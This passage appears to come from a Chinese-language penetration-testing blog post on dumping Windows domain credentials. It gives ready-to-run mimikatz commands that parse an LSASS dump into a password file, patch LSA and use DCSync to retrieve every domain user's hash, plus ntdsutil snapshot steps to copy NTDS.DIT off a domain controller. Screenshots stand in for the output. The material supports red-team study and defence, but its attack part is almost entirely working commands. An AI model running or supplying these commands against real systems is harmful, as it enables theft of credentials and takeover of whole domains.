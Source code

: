 ```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > pssword.txt
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/09.png)

win10 也可以

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/10.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/11.png)

## 域内mimikatz使用
### 读取域控中域成员Hash
域管理员身份执行mimikatz

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/12.png)

```
#提升权限
privilege::debug

抓取密码
lsadump::lsa /patch
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/13.png)

方法二：通过 dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取：

```
#获取所有域用户
lsadump::dcsync /domain:test.com /all /csv

#指定获取某个用户的hash
lsadump::dcsync /domain:test.com /user:test
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/14.png)

###  导出域成员Hash
域账户的用户名和hash密码以域数据库的形式存放在域控制器的 `%SystemRoot%\ntds\NTDS.DIT` 文件中。
这里可以借助：ntdsutil.exe，域控制器自带的域数据库管理工具，我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库：

```
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit

#加载快照
ntdsutil snapshot "mount {快照集}" quit quit

#Copy文件副本
copy C:\路径\windows\NTDS\ntds.dit c:\ntds.dit
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/15.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/16.png)
